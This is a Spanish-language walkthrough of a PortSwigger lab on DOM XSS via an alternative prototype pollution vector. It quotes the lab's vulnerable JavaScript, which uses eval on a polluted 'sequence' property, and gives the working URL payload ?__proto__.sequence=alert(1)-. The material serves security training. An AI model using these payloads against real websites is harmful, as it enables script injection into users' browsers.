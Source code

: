 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector
---
```


# Lab 3: DOM XSS via an alternative prototype pollution vector

Al validar la siguiente carga no funciona:

```
/?__proto__[foo]=bar
```

Y se puede apreciar al ejecutar lo siguiente desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se envia otra carga:

```
/?__proto__.hacked=gerh
```

Y se logra ver que si funciono ejecutando desde el devtools: `Object.prototype`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Por lo anterior, se procede a analizar el codigo fuente de JS:

```javascript
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

El código proporcionado es susceptible a _prototype pollution_ debido a la forma en que se maneja el objeto `params` y la posibilidad de que se manipule de manera insegura. Aquí hay un análisis detallado de las razones:

1.  **Manipulación del objeto `params`**:

    ```javascript
    await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    ```

    El objeto `params` que se envía en el cuerpo de la solicitud podría ser manipulado por un atacante. Si el `params` contiene propiedades que alteran el prototipo de objetos nativos como `Object.prototype`, podría introducir propiedades no deseadas en todos los objetos de ese tipo en la aplicación.
2.  **Uso de `eval`**:

    ```javascript
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
    ```

    El uso de `eval` con datos potencialmente controlados por el usuario (`manager.sequence`) es extremadamente peligroso. Esto permite la ejecución de código arbitrario, lo que podría explotarse para modificar el prototipo de objetos globales.
3.  **Dependencia de `$.parseParams`**:

    ```javascript
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
            }};
    ```

    La función `$.parseParams` podría ser manipulada para introducir propiedades maliciosas en `params`. Si `params` se construye a partir de una cadena de consulta controlada por el usuario, esto abre la puerta a la contaminación del prototipo.

Por lo anterior, enviamos la siguiente carga:

```
/?__proto__.sequence=alert(1)
```

Y lo anterior, genero el siguiente error:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

La anterior payload no funciono y no genero el XSS.

Si analizamos con el debugger, se logra apreciar que el payload se le esta agregando "1" al final:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Lo anterior es debido a la linea 16 que suma la variable mas "1".

Teniendo en cuenta lo anterior, enviaremos una carga adicionando el caracter "-".

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

La carga utilizada para desplegar el XSS fue la siguiente:

```
?__proto__.sequence=alert(1)-
```


